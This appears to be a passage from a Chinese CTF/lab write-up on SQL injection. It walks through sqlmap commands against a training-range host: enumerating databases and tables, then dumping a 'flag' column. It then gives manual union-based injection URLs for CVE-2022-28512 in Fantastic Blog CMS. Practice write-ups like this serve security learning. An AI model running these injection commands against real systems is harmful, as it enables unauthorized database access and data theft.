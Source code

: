 ![img](%E9%9D%B6%E5%9C%BA.assets/1686101161_647fdca95e3b96dc4fe4f.png!small)![img](%E9%9D%B6%E5%9C%BA.assets/1686101249_647fdd010c9474551ec2e.png!small)

以上分别列出了存在注入点的参数。

- 基于布尔的盲注。
- 基于错误的注入
- 基于时间的盲注
- 联合查询

#### 2)查看当前连接的数据库。

> python sqlmap.py -u  "http://eci-2zej8e2hn3s4jczjydgi.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141b8009cf0&n=1&t=10" --cookie="td_cookie=640699955;PHPSESSID=3qfukj93lq669vqf1idmnb5qnn"  --batch–-dbs

![img](%E9%9D%B6%E5%9C%BA.assets/1686101388_647fdd8cd9ce982ec9d78.png!small)猜测flag在ctf数据库中

#### 3)获取当前数据库中的所有数据表

> python sqlmap.py -u  "http://eci-2zej8e2hn3s4jczjydgi.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141b8009cf0&n=1&t=10" --cookie="td_cookie=640699955;PHPSESSID=3qfukj93lq669vqf1idmnb5qnn"  --batch –D ctf –-tables

![img](%E9%9D%B6%E5%9C%BA.assets/1686101535_647fde1facbc6321e2590.png!small)

#### 4)我们查看flag表中的所有列

> python sqlmap.py -u  "http://eci-2zej8e2hn3s4jczjydgi.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141b8009cf0&n=1&t=10" --cookie="td_cookie=640699955;PHPSESSID=3qfukj93lq669vqf1idmnb5qnn"  --batch –D ctf -T flag --columns

![img](%E9%9D%B6%E5%9C%BA.assets/1686101617_647fde711ea82b43cdc58.png!small)

#### 5)导出flag表中flag的列

> python sqlmap.py -u  "http://eci-2zej8e2hn3s4jczjydgi.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141b8009cf0&n=1&t=10" --cookie="td_cookie=640699955;PHPSESSID=3qfukj93lq669vqf1idmnb5qnn"  --batch –D ctf -T flag -C "flag" --dump

![img](%E9%9D%B6%E5%9C%BA.assets/1686101755_647fdefb9a3ac99c6bf21.png!small)

至此flag也解出来了。



## CVE-2022-28512 Fantastic Blog (CMS) SQL注入

无需注册

```
http://eci-2ze9nch9yrgm8gwlzeir.cloudeci1.ichunqiu.com/single.php?id=2' or 1=1 order by 9--%20
http://eci-2ze9nch9yrgm8gwlzeir.cloudeci1.ichunqiu.com/single.php?id=2' or 1=1 union select 1,2,3,4,5,6,7,8,9 --%20
但是没有回显

```
